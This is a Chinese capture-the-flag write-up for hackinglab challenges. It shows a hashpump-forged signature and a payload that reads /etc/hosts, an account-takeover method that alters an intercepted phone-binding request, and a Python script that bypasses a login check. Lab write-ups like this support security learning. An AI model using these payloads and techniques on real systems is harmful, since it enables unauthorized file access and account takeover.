 ## 有签名限制的读取任意文件

[哈希长度扩展攻击的简介以及HashPump安装使用方法](http://www.cnblogs.com/pcat/p/5478509.html)

[解法原文](http://blog.csdn.net/zhankehua/article/details/51865788)

在kail下使用hashpump
```bash
hashpump -s f3d366138601b5afefbd4fc15731692e -d /etc/hosts -k 32 -a chen
```
得到，包'\x'换成%
```bash
3998b374350d22991b9c8f9885194a16
/etc/hosts\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x01\x00\x00\x00\x00\x00\x00chen
```
构造payload: 
```bash
?filepath=/etc/hosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00chen
&sign=3998b374350d22991b9c8f9885194a16
```
# 综合关

## 渗透测试第一期
首先有注册和修改密码的选项，先注册一个账号并绑定手机号（查看网页源码得到），注册成功后，知道只有用admin账户登入，才能得到key。到忘记密码
选项去修改密码，发现弹不出手机的验证码。可以猜测到管理员的账号绑定的不是这个手机。突然想起在注册账号的时候有手机绑定，在手机绑定的时候，抓包，把用户名改成admin.绑定成功。然后在回到修改密码哪里，现在可以弹出验证码。修改后。弹出密码。用这个密码登入admin账户，登入成功。


## 没有注入到底能不能绕过登录
通过robots.txt中可知一个不可访问的文件，直接访问，提示要先登入。
用admin账户，密码随便，登入，提示密码错误，不管弹框，直接输入刚才不可访问文件的链接，得到key。原来后台没有对登入账户进行校验，只要保持一个session就行。
```bash
import requests
r = requests.Session()
url = 'http://lab1.xseclab.com/pentest3_307c0281537de1615673af8c1d54885a/'
data = {'username': 'admin', 'password': '123'}
r.post(url, data=data)
url2 = 'http://lab1.xseclab.com/pentest3_307c0281537de1615673af8c1d54885a/myadminroot/'
print (r.get(url2).content)
```
[后面一些题目的解答](https://www.40huo.cn/blog/hackinglab-comp.html)